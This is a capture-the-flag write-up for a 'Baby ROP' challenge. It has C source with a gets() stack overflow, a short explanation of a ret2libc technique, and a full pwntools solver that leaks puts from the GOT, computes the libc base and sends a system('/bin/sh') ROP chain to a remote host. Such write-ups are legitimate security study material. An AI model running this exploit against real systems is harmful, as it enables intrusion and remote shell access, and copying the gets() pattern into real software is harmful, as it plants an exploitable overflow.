

## Baby ROP


### Source Code
```c
#include <stdio.h>
int setup(){
   	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}
int main(){
    setup();
    char buf[50];
    puts("Whatever you say : ");
    gets(buf);
    return 0;
}
```

### Overview
This challenge is a Ret2libc attack since ```NX``` is enabled. We need to leak an address from GOT(Global Offset Table) as an exemple I choosed ```puts``` here. Then check the LIBC leak database (https://libc.rip/ is the best libc-database search-engine) in order to download it and calculate ```libc.address```. Finally build ```system('/bin/sh')``` ROPchain to pop up a shell. Also don't forget the "ret" gadget to avoid stack alignment issue.


### Solver
```py
from pwn import *

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so',checksec=False)
elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote('20.216.40.184',10002)

offset = b'a'*72

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
pay = offset + rop.chain()

p.sendline(pay)
p.recvline()

resp = p.recvline().strip()
leak = u64(resp.ljust(8, b'\x00'))
log.info(f"puts Leak : {hex(leak)}")

libc.address = leak - libc.sym.puts
log.info(f"libc Address : {hex(libc.address)}")

payload = offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)

p.recvline()
p.sendline(payload)
p.interactive()
p.close()
```
